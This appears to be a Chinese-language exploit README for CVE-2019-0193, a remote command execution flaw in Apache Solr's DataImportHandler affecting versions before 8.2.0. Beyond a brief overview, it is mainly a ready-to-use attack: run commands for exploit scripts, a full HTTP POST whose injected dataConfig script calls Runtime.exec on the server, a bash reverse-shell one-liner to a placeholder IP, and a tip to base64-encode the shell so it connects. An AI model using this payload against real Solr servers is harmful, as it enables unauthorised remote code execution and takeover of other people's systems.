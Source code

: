 ## 漏洞概述

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。

由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行
### CVE
CVE-2019-0193

### 影响范围

```http
Solr < 8.2.0
```

### POC

```bash
python poc.py
```

### EXP

方法一

```bash
python3 exp.py <url>
```

方法二

访问`http://ip:8983/`Apache solr的管理页面，无需登录（默认未开启鉴权认证）

```http
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("echo '666' > ./666.txt");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

```bash
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
```

如直接如上写入反弹无反应，需要base64加密写才能反弹一个shell